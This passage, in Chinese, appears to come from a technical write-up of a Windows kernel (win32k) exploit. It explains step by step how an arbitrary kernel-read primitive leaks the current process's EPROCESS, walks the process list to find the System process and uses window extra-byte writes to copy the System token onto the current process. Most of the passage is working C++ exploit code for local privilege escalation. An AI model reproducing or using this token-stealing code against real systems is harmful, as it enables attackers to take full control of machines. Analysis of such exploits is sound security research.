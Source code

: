 EXP 中通过函数 ReadKernelMemoryQQWORD 封装任意地址读功能，参数 pAddress 为要读的地址 p，ululOutVal1 和 ululOutVal2 存储读出来的 16 字节，其中 ululOutVal1 = *(__int64 *)p，ululOutVal2 = *(__int64 *)(p + 8)，实现如下：

```
ULONG_PTR ululValue1 = 0, ululValue2 = 0;

// **(__int64 **)(*(__int64 *)(spMenu + 0x18) + 0x100) 为进程 EPROCESS 结构体地址
ReadKernelMemoryQQWORD(pSPMenu + 0x18, ululValue1, ululValue2);
ReadKernelMemoryQQWORD(ululValue1 + 0x100, ululValue1, ululValue2);
ReadKernelMemoryQQWORD(ululValue1, ululValue1, ululValue2);

ULONG_PTR pMyEProcess = ululValue1;
std::cout<< "Get current kernel eprocess: " << pMyEProcess << std::endl;    // 输出 EPROCESS 地址到控制台
```

至于为什么要减去那四个值，再来回顾一下 xxxGetMenuBarInfo 中是怎么赋值 mbi 的。

**4.4 泄露进程 EPROCESS 地址**

312 – 320 行使用了 3.6.3 节 第一种方法来泄露：

```
ULONG_PTR pSystemEProcess = 0;

ULONG_PTR pNextEProcess = pMyEProcess;
for (int i = 0; i < 500; i++) {        // 用 do...whlie 循环遍历更优
    ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_ActiveProcessLinks_offset, ululValue1, ululValue2);    // 读出 pEPROCESS->ActiveProcessLinks.Flink 的值
    pNextEProcess = ululValue1 - g_dwEPROCESS_ActiveProcessLinks_offset;    // 减去 ActiveProcessLinks 字段在 EPROCESS 结构体中的偏移，得到下一个进程 EPROCESS 结构体首地址
    // 读取下一个进程 pid
    ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_UniqueProcessId_offset, ululValue1, ululValue2);

    ULONG_PTR nProcessId = ululValue1;
    if (nProcessId == 4) { // pid 为 4，说明找到了 System 进程
        pSystemEProcess = pNextEProcess;
        std::cout << "System kernel eprocess: " << std::hex << pSystemEProcess << std::endl;    // 输出信息
        // 读取 System 进程的 Token
        ReadKernelMemoryQQWORD(pSystemEProcess + g_dwEPROCESS_Token_offset, ululValue1, ululValue2);
        ULONG_PTR pSystemToken = ululValue1;

        ULONG_PTR pMyEProcessToken = pMyEProcess + g_dwEPROCESS_Token_offset;

        // 参考 3.6.1 节，通过任意地址写，替换当前进程的 Token 为 System Token
        LONG_PTR old = SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pMyEProcessToken);    // 修改 tagWNDk1.pExtraBytes 为当前进程 &pEPROCESS->Token
        SetWindowLongPtr(g_hWnd[1], 0, (LONG_PTR)pSystemToken);  // 窗口 1 的 pExtraBytes 处于直接寻址模式
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)old);        // 还原 tagWNDk1.pExtraBytes 旧值
        break;
    }
}
```
